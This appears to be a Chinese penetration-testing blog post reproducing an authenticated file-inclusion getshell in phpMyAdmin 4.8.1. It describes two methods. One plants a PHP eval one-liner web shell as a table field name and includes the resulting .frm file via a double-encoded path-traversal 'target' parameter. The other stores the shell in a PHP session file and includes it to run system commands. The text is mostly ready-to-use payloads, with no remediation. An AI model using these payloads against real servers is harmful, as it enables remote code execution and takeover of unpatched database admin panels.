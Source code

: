 ```yaml
---
layout: post
title: phpmyadmin4.8.1后台getshell
categories: [渗透]
tags: [渗透]
fullview: false
comments: true
---
```


复现一下  
  
phpmyadmin4.8.1后台getshell  

包含文件进行getshell  

姿势:  

### ① ###
建立数据库的，新建表，字段名为一句话木马。 

  
![](https://i.imgur.com/EPlDyPp.png)

会生成对应的数据库文件，相应文件的路径查看  
>     select @@datadir;

![](https://i.imgur.com/Audw2qN.png)  
  
这个样子就会在/var/lib/mysql/hack/hack.frm的文件里包含着一句话木马的字段。  

![](https://i.imgur.com/bEMPj9r.png)  

>     ?target=db_sql.php%253f/../../../../../../var/lib/mysql/data/hack/hack.frm  

![](https://i.imgur.com/UONoCwf.png)  

权限不够，  

![](https://i.imgur.com/HZtEHKa.png)  

不过这个再linux下面倒是很简单，不用考虑权限。
### ② ###

查询语句(一句话木马)，  

执行查询  

>     select '<?php @eval($_GET["code"])?>'


之后会保存在session文件里。  

session文件:  
>     /var/lib/php/sessions/sess_你的SESSION ID  

包含payload:
>     ?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_6ker17rs59cuu39e6rfdpdrcaoto5116&a=system("ls");
  
![](https://i.imgur.com/ksFcQS2.png) 


